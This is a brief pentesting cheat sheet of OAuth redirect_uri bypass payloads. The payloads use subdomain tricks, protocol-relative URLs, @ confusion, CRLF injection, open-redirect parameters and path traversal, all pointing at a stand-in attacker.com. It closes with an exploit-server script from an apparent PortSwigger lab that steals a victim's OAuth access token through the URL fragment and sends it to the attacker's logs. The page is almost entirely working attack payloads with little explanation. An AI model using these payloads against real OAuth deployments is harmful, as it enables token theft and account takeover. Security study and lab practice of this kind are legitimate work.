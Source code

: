 [#](#) OAuth

## Redirect_URi

StartsWith/IndexOf:

    &redirect_uri=https://vulnerable.com.attacker.com

Fake relative:

    &redirect_uri=//attacker.com

RFC

    &redirect_uri=https://attackers.com\@vulnerable.com
    &redirect_uri=https://attackers.com?@vulnerable.com

Multiline Regex:

    &redirect_uri=https://attacker.com%0a%0dtarget.com

Parameters:

    &redirect_uri=https://target.com/redir?u=//attackers.com
    
Can you path transversal + use a open redir in the app?

    &redirect_uri=https://target.com/oauth_callback/../post/next?path=https://attacker.com
    
    Exploit Server
    ```
    <script>
    // First CSRF
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        // Extracting the hash fragment and sending in to the logs...
        window.location = '/?'+document.location.hash.substr(1)
    }
    </script>
    ```
